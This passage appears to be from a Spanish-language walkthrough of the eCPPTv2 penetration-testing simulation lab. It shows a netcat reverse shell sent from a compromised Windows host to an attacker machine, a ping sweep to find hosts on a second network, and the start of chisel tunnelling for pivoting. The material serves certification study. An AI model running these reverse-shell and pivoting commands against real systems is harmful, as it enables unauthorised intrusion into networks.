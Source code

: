 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 101.png)

Ahora con netcat se enviará una shell a la máquina del atacante y se aprovechará el túnel creado previamente.

```bash
# En la máquina atacante
nc -nlvp 445

# En la máquina Dumbledore
C:\Windows\Temp\nc.exe -e cmd 30.30.30.6 445
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 102.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 103.png)

De esta forma se obtiene una shell interactiva.

# Matrix

## Reconocimiento

Previamente en la máquina Dumbledore, se vio que esta tiene otra interfaz de red, por lo que ahora se hará un escaneo de hosts para descubrir más hosts activos por esta interfaz.

```bash
# Mostrar la tabla ARP
arp -a

# Borrar las entradas de la tabla ARP
arp -d

# Descrubrir hosts activos
for /L %a in (1,1,254) do @start /b ping 40.40.40.%a -w 100 -n 2 >nul

# Mostrar los hosts activos en la tabla ARP
arp -a
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 104.png)

### Uso de chisel en Windows 64 bits

Una vez descubierta la IP de la otra máquina ahora se hará un escaneo con nmap, pero para hacer esto, es necesario traer todas las conexiones de la máquina Dumbledore y hacerlas visibles desde la máquina atacante con chisel.

- Instalación
    
    Primero hay que descargar la herramienta chisel para Windows: ‣
    
    ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 105.png)
    